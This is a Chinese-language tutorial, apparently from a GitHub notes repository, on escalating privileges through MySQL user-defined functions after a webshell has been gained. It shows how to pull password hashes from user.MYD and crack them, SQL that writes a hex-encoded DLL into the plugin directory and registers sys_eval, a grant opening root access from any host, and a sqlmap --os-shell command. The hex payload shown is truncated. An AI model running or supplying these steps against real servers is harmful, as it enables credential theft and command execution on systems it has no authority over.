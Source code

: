 # 数据库 udf提权
## 获取数据库密码方式
我们在拿到webshell的情况下，针对mysql数据库，我们可以找寻mysql的安装目录，下面的`user.MYD`文件，用记事本打开。可以找到数据库的密码，通过cmd5进行界面。如`MySQL5.7.26/data/mysql/user.MYD`

![image](https://user-images.githubusercontent.com/71583369/146636472-29f7e7a6-7186-4c08-aad5-29c7718c9baa.png)

- 文件中的密码为MD5加密，可通过解密平台解密
![image](https://user-images.githubusercontent.com/71583369/146636526-3b2e303a-a85b-40a8-a082-e41bf6bf0ffb.png)

有时密码的字符串是分开，需要进行前后拼接，才能成功解密。当密码复杂度高时解不开密码，只能通过数据库配置文件来解。
- 通过直接在数据库中查询来过去密码

## udf提权操作
首先要创建lib\plugin文件，默认是没有的
```
create table temp(data longblob);
insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);
update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);
select data from temp into dumpfile "G://phpstudy_pro//Extensions//MySQL5.7.26//lib//plugin//udf.dll";(此文件路径需根据具体情况进行修改)
create function sys_eval returns string soname 'udf.dll';
```
## 当以上的方法无法成功时，可以开启mysql的外连功能
```
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'rootpassword';
rootpassword为对应的密码
```
随后通过sqlmap进行提权，命令如下：
```
sqlmap.py -d mysql://root:root@x.x.x.x:3306/mysql --os-shell
```
有时sqlmap使用时会报错，提示缺少模块，需要安装pymysql
`python pip install pymysql`
参考链接：
- https://blog.csdn.net/qq_42636435/article/details/106852716
- https://blog.csdn.net/weixin_30569033/article/details/97225345
